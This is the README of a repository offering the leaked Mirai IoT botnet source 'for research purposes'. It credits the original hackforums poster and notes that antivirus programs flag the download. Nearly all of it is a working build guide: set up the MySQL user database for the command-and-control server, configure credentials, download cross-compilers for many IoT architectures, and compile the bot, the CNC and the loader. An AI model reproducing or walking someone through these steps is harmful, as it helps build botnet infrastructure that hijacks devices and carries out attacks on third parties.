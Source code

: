 # Mirai BotNet
Leaked Linux.Mirai Source Code for Research/IoT Development Purposes

Uploaded for research purposes and so we can develop IoT and such.

## Requirements
* To be able to use vi.
* It is recommended that Linux be used as the operating system.

## Credits
[Anna-senpai](https://hackforums.net/showthread.php?tid=5420472)

## Disclaimer
This repository is for academic purposes, the use of this software is your
responsibility.

## Warning
The [zip file](https://www.virustotal.com/en/file/f10667215040e87dae62dd48a5405b3b1b0fe7dbbfbf790d5300f3cd54893333/analysis/1477822491/) for this repo is being identified by some AV programs as malware.  Please take caution. 

## Install
```
# apt-get install git gcc golang electric-fence mysql-server mysql-client
# git clone https://github.com/jgamblin/Mirai-Source-Code-plus
# cd Mirai-Source-Code-plus/scripts
# service mysql start
# cat db.sql | mysql -uroot -proot
```
Add users to mysql. 
```
# mysql -uroot -proot mirai
> INSERT INTO users VALUES (NULL, 'mirai-user', 'mirai-pass', 0, 0, 0, 0, -1, 1, 30, '');
> exit
# vi ../mirai/cnc/main.go
```
line 10 - line 14 set mysql user and pass here
```
const DatabaseAddr string   = "127.0.0.1"
const DatabaseUser string   = "root"
const DatabasePass string   = "root"
const DatabaseTable string  = "mirai"
```
Cross Compile

Next, go to the scripts directory.
```
# cd .. && mkdir cross-compile-bin
# cd cross-compile-bin

# wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
# wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.tar.bz2
# wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
# wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i686.tar.bz2
# wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
# wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
# wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
# wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
# wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
# wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
# wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-x86_64.tar.bz2

# cd ../scripts
# sudo ./cross-compile.sh
```
Enter "n" here.
```
Install mysql-server and mysql-client (y/n)? n
```
Edit .bashrc
```
# vi ~/.bashrc
```
Add the following string to the last line
```
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv5l/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin

export GOPATH=$HOME/go
```
After adding and saving, enter the following command
```
# mkdir ~/go
# source ~/.bashrc
```
Build bot and CNC
Get golang requiremnts
```
# go get github.com/go-sql-driver/mysql
# go get github.com/mattn/go-shellwords
```
In mirai folder, run build.sh script
```
# cd ../mirai
# ./build.sh debug telnet
```
Build loader
```
# cd ../loader
# ./build.sh
```
This completes the installation.
